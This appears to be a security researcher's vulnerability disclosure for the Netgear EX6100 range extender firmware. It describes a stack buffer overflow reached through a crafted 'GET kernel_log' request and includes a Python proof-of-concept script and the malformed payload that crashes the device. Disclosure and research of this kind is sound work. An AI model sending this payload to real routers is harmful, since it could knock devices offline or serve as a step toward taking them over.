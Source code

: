 # Overview
Details of the vulnerability found in the netgear router ex6100.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex6100    | V1.0.2.28_1.1.138    | https://www.downloads.netgear.com/files/GDC/EX6100/EX6100-V1.0.2.28_1.1.138.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_415EF8 at offset 0x004164A0, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET kernel_log`.
![second](./assets/2.png)
- Since the program uses `memset(&v23[6], 0, 94);`, the maximum size of the `v23` buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.7"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET kernel_log.s:GEToEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE%EEEEEEEEEEEEEEEEEE  wLG_wifi_sc}e_set.htm 3


```

# Vulnerability Verification Screenshot
##  ex6100
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
